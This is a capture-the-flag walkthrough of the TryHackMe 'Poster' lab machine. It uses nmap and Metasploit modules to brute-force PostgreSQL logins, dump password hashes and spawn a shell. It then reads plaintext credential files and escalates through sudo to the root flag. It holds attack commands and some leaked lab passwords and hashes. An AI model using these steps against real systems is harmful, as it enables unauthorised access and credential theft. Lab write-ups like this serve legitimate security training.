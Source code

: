 # poster writeup
## machine information 
this is an easy machine from tryhackme where we need to exploit a vulnerability in postgresql 

## enumeration 
### nmap 
```
nmap -sC -sV 10.10.218.192 -o nmap/poster
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 11:50 EDT
Nmap scan report for 10.10.218.192
Host is up (0.11s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:ed:48:af:29:9e:30:c1:b6:1d:ff:b0:24:cc:6d:cb (RSA)
|   256 eb:3a:a3:4e:6f:10:00:ab:ef:fc:c5:2b:0e:db:40:57 (ECDSA)
|_  256 3e:41:42:35:38:05:d3:92:eb:49:39:c6:e3:ee:78:de (ED25519)
80/tcp   open     http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Poster CMS
1081/tcp filtered pvuniwien
5432/tcp open     postgresql PostgreSQL DB 9.5.8 - 9.5.10 or 9.5.17 - 9.5.23
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-29T00:54:25
|_Not valid after:  2030-07-27T00:54:25
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
the scan reveals 3 open ports ( ssh, http and postgre database)

based on the room : Metasploit contains a variety of modules that can be used to enumerate in multiple rdbms, making it easy to gather valuable information. 
so let us start metasploit and search for postgre auxilary that will allow us to enumerate users 
```
msf6 > search postgresql

Matching Modules
================

   #   Name                                                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                                                      ---------------  ----       -----  -----------
   0   exploit/linux/http/acronis_cyber_infra_cve_2023_45249                                     2024-07-24       excellent  Yes    Acronis Cyber Infrastructure default password remote code execution
   1     \_ target: Unix/Linux Command                                                           .                .          .      .
   2     \_ target: Interactive SSH                                                              .                .          .      .
   3   auxiliary/server/capture/postgresql                                                       .                normal     No     Authentication Capture: PostgreSQL
   4   exploit/linux/http/beyondtrust_pra_rs_unauth_rce                                          2024-12-16       excellent  Yes    BeyondTrust Privileged Remote Access (PRA) and Remote Support (RS) unauthenticated Remote Code Execution
   5   post/linux/gather/enum_users_history                                                      .                normal     No     Linux Gather User History
   6   exploit/multi/http/manage_engine_dc_pmp_sqli                                              2014-06-08       excellent  Yes    ManageEngine Desktop Central / Password Manager LinkViewFetchServlet.dat SQL Injection
   7     \_ target: Automatic                                                                    .                .          .      .
   8     \_ target: Desktop Central v8 >= b80200 / v9 < b90039 (PostgreSQL) on Windows           .                .          .      .
   9     \_ target: Desktop Central MSP v8 >= b80200 / v9 < b90039 (PostgreSQL) on Windows       .                .          .      .
   10    \_ target: Desktop Central [MSP] v7 >= b70200 / v8 / v9 < b90039 (MySQL) on Windows     .                .          .      .
   11    \_ target: Password Manager Pro [MSP] v6 >= b6800 / v7 < b7003 (PostgreSQL) on Windows  .                .          .      .
   12    \_ target: Password Manager Pro v6 >= b6500 / v7 < b7003 (MySQL) on Windows             .                .          .      .
   13    \_ target: Password Manager Pro [MSP] v6 >= b6800 / v7 < b7003 (PostgreSQL) on Linux    .                .          .      .
   14    \_ target: Password Manager Pro v6 >= b6500 / v7 < b7003 (MySQL) on Linux               .                .          .      .
   15  auxiliary/admin/http/manageengine_pmp_privesc                                             2014-11-08       normal     Yes    ManageEngine Password Manager SQLAdvancedALSearchResult.cc Pro SQL Injection
   16  exploit/multi/postgres/postgres_copy_from_program_cmd_exec                                2019-03-20       excellent  Yes    PostgreSQL COPY FROM PROGRAM Command Execution
   17    \_ target: Automatic                                                                    .                .          .      .
   18    \_ target: Unix/OSX/Linux                                                               .                .          .      .
   19    \_ target: Windows - PowerShell (In-Memory)                                             .                .          .      .
   20    \_ target: Windows (CMD)                                                                .                .          .      .
   21  exploit/multi/postgres/postgres_createlang                                                2016-01-01       good       Yes    PostgreSQL CREATE LANGUAGE Execution
   22  auxiliary/scanner/postgres/postgres_dbname_flag_injection                                 .                normal     No     PostgreSQL Database Name Command Line Flag Injection
   23  auxiliary/scanner/postgres/postgres_login                                                 .                normal     No     PostgreSQL Login Utility
   24  auxiliary/admin/postgres/postgres_readfile                                                .                normal     No     PostgreSQL Server Generic Query
   25  auxiliary/admin/postgres/postgres_sql                                                     .                normal     No     PostgreSQL Server Generic Query
   26  auxiliary/scanner/postgres/postgres_version                                               .                normal     No     PostgreSQL Version Probe
   27  exploit/linux/postgres/postgres_payload                                                   2007-06-05       excellent  Yes    PostgreSQL for Linux Payload Execution
   28    \_ target: Linux x86                                                                    .                .          .      .
   29    \_ target: Linux x86_64                                                                 .                .          .      .
   30  exploit/windows/postgres/postgres_payload                                                 2009-04-10       excellent  Yes    PostgreSQL for Microsoft Windows Payload Execution
   31    \_ target: Windows x86                                                                  .                .          .      .
   32    \_ target: Windows x64                                                                  .                .          .      .
   33  auxiliary/admin/http/rails_devise_pass_reset                                              2013-01-28       normal     No     Ruby on Rails Devise Authentication Password Reset
   34  exploit/multi/http/rudder_server_sqli_rce                                                 2023-06-16       excellent  Yes    Rudder Server SQLI Remote Code Execution
   35  post/linux/gather/vcenter_secrets_dump                                                    2022-04-15       normal     No     VMware vCenter Secrets Dump


Interact with a module by name or index. For example info 35, use 35 or use post/linux/gather/vcenter_secrets_dump
```
we find postgres_login auxiliary ( 23) that will allow us to find the username and password , and all it need it to setup the rhost
creds found : 10.10.218.192:5432 - Login Successful: p*****:*****d@template1
now we are looking for another auxilary that will allow us to execute the username and admin we already found after many trials . it is number 25 
```
msf6 auxiliary(admin/postgres/postgres_sql) > set password password
password => password
msf6 auxiliary(admin/postgres/postgres_sql) > run
[*] Running module against 10.10.218.192
Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit

[*] Auxiliary module execution completed
```
just like this we get the version .. now we need to find a way to dump user hashes so we can use 
```
un
[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/postgres/postgres_hashdump) > 
```
the next 2 questions can be answered from the search 

after the first foothold on the system. we need to spawn a shell since python is working ( so we can change directories)
````
python3 -c 'print(1)'  
1
python3 -c 'import pty;pty.spawn("/bin/bash")'    
postgres@ubuntu:/var/lib/postgresql/9.5/main$ cd ..
cd ..
postgres@ubuntu:/var/lib/postgresql/9.5$ cd /
cd /
postgres@ubuntu:/$ cd /home
cd /home
postgres@ubuntu:/home$ ls
ls
alison  dark
postgres@ubuntu:/home$ cd dark
cd dark
postgres@ubuntu:/home/dark$ ls
ls
credentials.txt
postgres@ubuntu:/home/dark$ cat credentials.txt
cat credentials.txt
dark:qwerty1234#!hackme
```
we got some intresting credintils form dark . so we can login via ssh 
( after login via ssh I have found out that the user dark does not have any intersting permissions on the server so we need to find a way to login as alison)
there is a file in /var/www/html named config.php that contains 
```
dark@ubuntu:/home/alison$ cd /var/www/html
cd /var/www/html
dark@ubuntu:/var/www/html$ ls
ls
config.php  poster
dark@ubuntu:/var/www/html$ cat config.php
cat config.php
<?php 

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "****";
        $dbname = "mysudopassword";
```
so like this we now can su or ssh to alison and get the user flag :
```
cd /home/alison
alison@ubuntu:~$ cat user.txt
cat user.txt
THM{********}
alison@ubuntu:~$ 
```
## previlige escalation

from below . the user can run any command as root . like this we easly get the root flag
alison@ubuntu:~$ sudo -l
sudo -l
[sudo] password for alison: p4ssw0rdS3cur3!#

Matching Defaults entries for alison on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL
alison@ubuntu:~$ sudo cat /root/root.txt
sudo cat /root/root.txt
THM{******}
alison@ubuntu:~$ 
